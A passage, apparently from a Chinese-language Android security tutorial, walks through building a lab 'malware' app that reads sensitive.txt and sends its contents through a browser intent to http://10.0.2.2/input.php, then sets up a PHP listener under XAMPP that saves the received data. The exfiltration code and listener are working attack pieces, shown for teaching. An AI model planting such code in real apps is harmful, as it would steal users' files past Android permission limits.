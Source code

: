       } 
      String data = output.toString(); 

      startActivity(new Intent(Intent.ACTION_VIEW, Uri.parse("http://10.0.2.2/input.php?input=" + data))); 

    ```

    我们在代码中使用了`http://10.0.2.2`作为我们的网页服务器地址，因为我们在模拟器中测试此应用程序，并且在尝试通过模拟器访问时，主机的 IP 地址始终是`10.0.2.2`。如果你使用的是实际的 Android 设备进行测试，确保设备与工作站连接，并将 IP 地址替换为工作站的 IP 地址。

1.  确保文件中包含以下导入：

    ```
    import android.content.Intent; 
    import android.net.Uri; 
    import android.support.v7.app.ActionBarActivity; 
    import android.os.Bundle; 
    import android.util.Log; 
    import android.view.Menu; 
    import android.view.MenuItem; 
    import java.io.*; 

    ```

    我们现在已经成功创建了一个恶意软件，具有无法读取`sensitive.txt`文件的权限，准备将其上传到远程服务器。现在，让我们创建我们的监听页面。

1.  创建一个名为`input.php`的文件，并添加以下代码：

    ```
    <?php 
        $File = "output.txt";  
        $Handle = fopen($File, 'w'); 
        $Data =  $_GET['input'];  
        fwrite($Handle, $Data); 
        fclose($Handle);  
    } 
    ?> 

    ```

1.  将此文件保存在 XAMPP 安装目录中的`htdocs`文件夹中。另外，创建一个空白文件`output.txt`并保存。

1.  打开 XAMPP 控制面板并启动 Apache 服务：![如何操作...](img/image_02_017.jpg)
